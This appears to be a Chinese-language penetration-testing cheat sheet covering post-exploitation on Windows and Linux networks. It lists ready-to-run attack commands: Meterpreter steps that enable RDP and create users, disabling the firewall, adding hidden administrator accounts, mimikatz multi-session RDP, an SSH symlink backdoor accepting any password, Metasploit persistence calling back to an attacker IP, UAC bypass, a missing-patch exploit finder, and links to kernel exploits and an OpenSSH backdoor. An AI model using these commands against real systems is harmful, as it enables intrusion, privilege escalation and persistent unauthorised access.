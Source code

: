 #  信息收集
## windows

```shell
## 提权
JuicyPotato
SweetPotato
echo 其他漏洞见 z02
## 横向
meter> upload /root/fscan64.exe # 1.ipconfig 查看网段, # 2.arp -a # 2.1 route print # 3. fscan扫描 横向移动
meterpreter > run post/windows/manage/enable_rdp # 开 rdp
meterpreter > run getgui -e                      # 开启远程桌面
meterpreter > run getgui -u xiaowei -p 123456    # 创建用户
### [『红蓝对抗』RDP 多开小技巧 | 远程桌面](https://mp.weixin.qq.com/s/ji7YpWe1OyyhSlDOYydzWw)
wmic RDTOGGLE WHERE ServerName='%COMPUTERNAME%' call SetAllowTSConnections 1                              # 开启3389远程桌面
netsh advfirewall set allprofiles state off 
netsh advfirewall firewall set rule group="Remote Desktop" new enable=yes                                 # M2: 放行3389
netsh advfirewall firewall add rule name="Remote Desktop" protocol=TCP dir=in localport=3389 action=allow # M1: 放行3389

# 远程桌面 rdp
proxychains rdesktop 192.168.52.141  # 可以改过期密码
proxychains rdesktop 172.22.4.45 -u 'WIN19\Adrian' -p babygirl2 -r disk:home=/home/kali/vmware/test/rw
rdesktop -u yourname -p password -g 1024x720 192.168.0.2
rdesktop -r disk:tmp=/home/user/Desktop <remote ip address> # 映射文件夹
remmina # 可配代理 见 90_tools.md
freerdp
xfreerdp


net config Workstation # (当前计算机名，全名，用户名，系统版本，工作站域，登陆域)
net localgroup administrators
net view # 查看局域网内所有计算机
使用CS扩展的Ladon插件探测内网存活主机情况
Ladon 192.168.52.0/24 OnlinePC
net view /domain 查看域情况
CS和msf联动

# 内网主机信息收集
## * everything文件搜索（正则表达式提高效率）
## * 浏览器保存的密码/微信/QQ文件夹/回收站/共享盘/邮件软件/协同软件
## * 远程软件保存的远程连接 mstsc/内网通/向日葵/todesk等

```
### 多用户登录远程桌面
[RDP连接多开方法与利用思路](https://mp.weixin.qq.com/s/GCFCIwqnQUAFNED0dTVDoA)

```bash
net user admin 123456 /add
net localgroup administrators admin /add
net localgroup "Remote Desktop Users" admin /add 2>nul

# 1. 不同用户同时登录
mimikatz.exe privilege::Debug ts::multirdp exit
# 2. 同用户同时登录 RDPWrap, 好像不好使
install.bat
rdpconf.exe  # 取消 Single Session
## 2.1 win10+win11 http://github.com/anhkgg/SuperRDP
```


## linux 
[Linux内网渗透基础篇](https://mp.weixin.qq.com/s/MV4bTIW7YKiBgS6r03_FFw)
```shell
get_info_01_linux.sh
meterpreter > getSystem "whoami"

uname -a    # 获取所有版本信息
uname -m    # 获取Linux内核架构
cat /proc/version    # 获取内核信息 
cat /etc/*-release   # 发布信息
cat /etc/issue    # 发布信息
hostname    # 获取主机名
cat /etc/passwd    # 列出系统所有用户 
cat /etc/group    # 列出系统所有组 
w    # 查看目前登录的用户
whoami    # 查看当前用户 
id    # 查看当前用户信息 
sudo -l    # 列出目前用户可执行与无法执行的指令 
ps aux    # 查看进程信息 
ls -la /etc/cron*    # 查看计划任务
ls -la /tmp
ifconfig -a    # 列出网络接口信息 
cat /etc/network/interfaces    # 列出网络接口信息 
arp -a    # 查看系统arp表 
route    # 打印路由信息
netstat -anplt    # 打印本地端口开放信息 
iptables -L    # 列出iptable的配置规则
```

wmic qfe get Caption,Description,HotFixID,InstalledOn
wmic qfe get Caption,Description,HotFixID,InstalledOn | findstr /C:“KBxxxxxx”
## 权限维持

ssh软连接后门 需root执行后门命令，任意密码登录
```shell
ln -sf /usr/sbin/sshd /usr/local/su;/usr/local/su -oport=12345
```

* [msf](https://mp.weixin.qq.com/s/Ch73sZqK54HVlJQEhbBb6g)

msf 维持1 run persistence
```bash
run persistence –h #查看帮助
run persistence -U -i 5 -p 1234 -r 192.168.47.128
#-U指定启动的方式为用户登录时，-i反向连接的时间间隔(5s) –r 指定攻击者的ip
```

msf 维持2 metsvc
```bash
run metsvc –h # 查看帮助
run metsvc –A #自动安装后门
```

# 04自动信息收集
Host Information Gathering Script：HIGS.bat
https://github.com/myh0st/scripts/blob/master/Windows%E4%B8%8B%E4%BF%A1%E6%81%AF%E6%94%B6%E9%9B%86/HIGS.bat
privilege-escalation-awesome-scripts：winPEAS.bat
https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/blob/master/winPEAS/winPEASbat/winPEAS.bat

# 提权工具脚本

https://blog.csdn.net/weixin_43873557/article/details/113760973

快速查找exp

systeminfo>micropoor.txt&(for %i in (   KB2160329 KB2503665 KB2592799 KB2707511 KB2829361 KB2850851 KB3000061 KB3045171 KB3077657 KB3079904 KB3134228 KB3143141 KB3141780 ) do @type micropoor.txt|@find /i "%i"|| @echo %i you can fuck)&del /f /q /a  micropoor.txt

https://github.com/SecWiki/windows-kernel-exploits
https://github.com/WindowsExploits/Exploits

## ssh 相关
1.密钥篡改 authorized_keys 
2.重装覆盖 openssh-backdoor https://github.com/Psmths/openssh-backdoor

### bypassuac

1. msf
```bash
search bypassuac
use exploit/windows/local/bypassuac
options
set session 1
run -j
getuid
getsystem
```
2. CVE编号:CVE-2019-1388,windwos证书对话框特权提升漏洞。补丁号KB4524235 KB4525233
